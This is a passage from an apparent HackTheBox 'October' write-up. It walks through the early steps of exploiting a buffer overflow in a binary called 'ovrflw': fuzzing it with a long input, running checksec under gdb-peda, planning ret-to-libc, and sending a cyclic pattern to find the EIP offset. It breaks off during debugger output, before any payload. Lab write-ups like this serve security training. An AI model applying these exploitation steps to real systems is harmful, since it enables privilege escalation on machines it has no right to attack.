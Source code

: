```bash
Syntax: ./ovrflw <input string>
                         
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# ./ovrflw AAAAAA

┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# ./ovrflw $(python -c 'print "A"*6969')
zsh: segmentation fault  ./ovrflw $(python -c 'print "A"*6969')
```

Let’s debug this program using [`gdb-peda`](https://github.com/longld/peda).

>   Note: if `gdb-peda` is not working properly, update your `gdb` with `sudo apt-get install gdb -y`

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# git clone https://github.com/longld/peda.git ~/peda

┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# echo "source ~/peda/peda.py" >> ~/.gdbinit                                     
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# gdb ovrflw          
...
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

As `NX` is enabled, we won’t be able to put a shellcode inside the program. Therefore, we need to make use of `ret-to-libc` to exploit this. First, we need to try and offset the `EIP`.

```bash
# Create a unique pattern of 150 bytes
gdb-peda$ pattern_create 150
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'

# Set our input string to the unique pattern 
gdb-peda$ pset arg 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'

gdb-peda$ pshow arg
arg[1]: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA

gdb-peda$ run
Starting program: /home/shiro/HackTheBox/October/ovrflw 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'

# Set breakpoint at main function
gdb-peda$ break main
Breakpoint 1 at 0x8048480

gdb-peda$ run
Starting program: /home/shiro/HackTheBox/October/ovrflw 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'
[----------------------------------registers-----------------------------------]
EAX: 0xf7fa59e8 --> 0xffffd4a0 --> 0xffffd6c6 ("LANG=en_SG.UTF-8")
EBX: 0x0 
ECX: 0xdd7140ff 
```